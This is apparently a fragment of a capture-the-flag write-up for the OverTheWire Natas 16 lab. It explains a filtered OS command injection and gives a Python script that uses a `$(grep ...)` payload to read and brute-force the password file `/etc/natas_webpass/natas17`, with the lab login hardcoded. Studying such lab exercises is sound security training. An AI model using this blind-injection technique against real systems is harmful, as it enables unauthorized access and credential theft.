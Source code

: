 ```php+HTML
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

This is an OS injection but we can't use ```;|&`\'"``` in our input

giving the input `unrecognised$(grep c /etc/natas_webpass/natas17) ` will give unrecognised as output only when c is not present in the password. So if don't get unrecognised as output then c is present in the password

Using this logic we can find which all characters are present in the password and then find the password using the character set. I wrote a python script for this

```python
import requests

url = "http://natas16.natas.labs.overthewire.org/?needle="
session = requests.Session()
some=requests.get(url,auth=requests.auth.HTTPBasicAuth('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')).text
print("Some :",some)
pass1='unrecognized$(grep {0} /etc/natas_webpass/natas17)&submit=search'
session = requests.Session()
some=requests.get(url,auth=requests.auth.HTTPBasicAuth('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')).text
print("Some :",some)
success = requests.get(url+"unrecognized",auth=requests.auth.HTTPBasicAuth('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')).text
print("Success :",success)
charset=""
for i in range(48,128):
    load = pass1.format(chr(i))
    response = requests.get(url+load,auth=requests.auth.HTTPBasicAuth('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'))
    if ("unrecognized" not in response.text and chr(i) not in (";|&`#()*.^$\'"+'"')):
        charset += chr(i)
        print("Charset :",charset)
password=""
for i in range(32):
    for j in charset:
        load=pass1.format(password+j)
        response = requests.get(url+load,auth=requests.auth.HTTPBasicAuth('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'))
        if ("unrecognized" not in response.text):
            password +=j
            print("Password :",password)
            break
while(len(password)!=32):
    for j in charset:
        load=pass1.format(j+password)
        response = requests.get(url+load,auth=requests.auth.HTTPBasicAuth('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'))
        if ("unrecognized" not in response.text):
            password = j + password
            print("Password :",password)
            break
print("Password :",password)
```
